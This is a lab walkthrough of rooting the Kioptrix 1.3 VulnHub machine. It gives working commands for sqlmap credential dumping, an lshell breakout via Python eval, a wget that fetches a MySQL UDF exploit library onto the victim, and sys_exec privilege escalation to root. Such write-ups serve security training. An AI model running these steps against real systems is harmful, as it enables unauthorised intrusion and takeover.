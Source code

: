 # Kioptrix 1.3 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/ "URL for kioptrix 1.3"). The kioptrix series are intended for use with VMWare, but by following the instructions found [here](http://hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/ "running kioptrix in VirtualBox"), you can get the virtual machines to work with VirtualBox.

## Information gathering

By now, we know that our attacker's IP address is 10.0.2.5 from the result of the `ifconfig` command. To find the IP of the target, we'll scan the local subnet with `nmap -sn 10.0.2.0/24` to find what hosts are on the network.

![](images/ping.png "nmap -sn 10.0.2.0/24 shows us that there are four possible IP addresses for our target")

The two VirtualBox hosts are `10.0.2.3` and `10.0.2.8`, and VirtualBox uses the former for its nameserver, so our target is `10.0.2.8`.

## Scanning

Now, we'll use `nmap -sV 10.0.2.8` to enumerate the services running on the target, and this will provide an attack surface for us.

![](images/nmap.png "nmap -sV 10.0.2.8 tells us the services runnning on the target")

We see that the target has several ports open, and we'll go down the list to find an exploitable one.

## Gaining access

From previous engagements with the past Kioptrix virtual machines, I know that the version of OpenSSH running is not one that we can easily exploit. You can look through my previous writeups to see how I came to that conclusion, or you can run `searchsploit openssh` and see that none of the available exploits are that useful for us.

Instead, we'll target port 80, which is running the http service, meaning that if we go to http://10.0.2.8 in a web browser, we'll get a web page back.

![](images/front.png "Front page of http://10.0.2.8")

We can also run an application called OWASP ZAP which will inform us of any vulnerabilities in the web app. Loading up ZAP and putting http://10.0.2.8 into the target field will perform a scan of the web application, and we can see the results.

![](images/zap.png "Result of running OWASP ZAP")

It looks like the checklogin.php page is vulnerable to an SQL injection. Looking at the request sent, we can see that the HTTP POST method is used with parameters of "myusername", "mypassword", and "Login". We can take this information and use another tool, sqlmap, to perform automated SQL injections so that we can find valid usernames and passwords. We run this tool with the command `sqlmap -u "http://10.0.2.8/checklogin.php" --data "myusername=test&mypassword=test&Submit=login" --dump --level=5 --risk=3`. This tells sqlmap to target the checklogin.php page on 10.0.2.8, using the data string provided in an HTTP POST request, dump the resulting database table entries, and operate with high-level and high-risk tests.

![](images/sqlmap.png "Result of the sqlmap attack")

The resulting attack gives us the usernames and passwords of two users, john and robert. Logging in to the web page as either user just displays the username and password, so instead, we'll use SSH to connect to the vulnerable machine with the command `ssh john@10.0.2.8` and entering the password when prompted.

## Elevating Access

![](images/john.png "Logging in and exploring as john")

When we log in as either john or robert, we're put into a LiGoat shell that only allows us to perform a limited set of commands, `?`, `help`, `cd`, `clear`, `echo`, `exit`, `ll`, `lpath`, and `ls`. I hadn't heard of `ll` or `lpath` before, so I tried them out, and it looks like `ll` is just an alias for `ls -l`, and `lpath` defines the path that the user is allowed to be in. Running a command other than the ones listed results in an error that the command is unknown, and attempting to explore outside of the allowed path gives a warning on the first attempt and kicks you out of the system on the second attempt.

Using `ls -al`, we can see the dot files that are in our current directory. I hadn't heard of the .lhistory file before, so after some googling, I came to discover that it represents the presence of lshell, which is a limited shell environment [written in Python](https://github.com/ghantoos/lshell "Link to the lshell GitHub repo"). Doing some [research](https://www.aldeid.com/wiki/Lshell "lshell bypass") into lshell showed that it's possible to break out of the limited shell environment with the command `echo os.system('/bin/bash')`. This is because lshell uses eval() to strip quotes from the command line, and as a result, it allowed for the execution of valid Python expressions.

![](images/escape.png "Breaking out of lshell")

Now that we're in a regular shell environment, we still need to get root access to the machine. Since this machine is running as a web server, I thought to check the /var/www directory to see if there was anything of interest.

![](images/www.png "Contents of /var/www")

Browsing the files with `cat` showed something interesting in checklogin.php, hard-coded credentials for access to an SQL database.

![](images/checklogin.png "Hardcoded credentials in checklogin.php")

It looks like we can log in to the MySQL database with the username "root" and an empty password. Doing so with `mysql -u root` shows that the credentials are valid.

![](images/mysql.png "Logging in as root to the MySQL database")

Doing some more [research](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/ "MySQL privilege escalation") shows us that it's possible to escalate our privileges if we already have root access to a MySQL database. To do so, we'll first need to download a [shared object file](https://github.com/mysqludf/lib_mysqludf_sys/blob/master/lib_mysqludf_sys.so "Link to the shared object file") onto our victim. This can be done with the command `wget --no-check-certificate https://raw.githubusercontent.com/mysqludf/lib_mysqludf_sys/master/lib_mysqludf_sys.so -O /home/john/.`.

![](images/wget.png "Downloading the shared object")

This exploit works by loading this file into a new table row and dumping that table row into a new file in the /usr/lib directory. We do this through MySQL ecause our regular user is unable to write to this directory, but because we're running MySQL as the root user, we're able to write to there. Then, we'll create a new function in MySQL that will point to the code in the new file, and then we're able to execute arbitrary system commands with that MySQL function.

However, halfway through the steps to set up the exploit, I found out that the /usr/lib/lib\_mysqludf\_sys.so file already existed, so it looks like the exploit had been already loaded in the system. Testing it out with the MySQL command `select sys_exec('id > /tmp/out; chown john.john /tmp/out');` will write the results of the `id` command to the file /tmp/out, and if we `cat` that file, we see that the program runs as root.

![](images/id.png "Testing the MySQL exploit")

Now that we know we can run arbitrary commands as root, we'll run the MySQL command `select sys_exec('adduser john admin');` which will add the john user to the admin group, giving them access to the `sudo` command. Exiting MySQL with `exit;`, running `sudo su root`, and entering john's password when prompted shows that we are now root!

![](images/root.png "Root access")
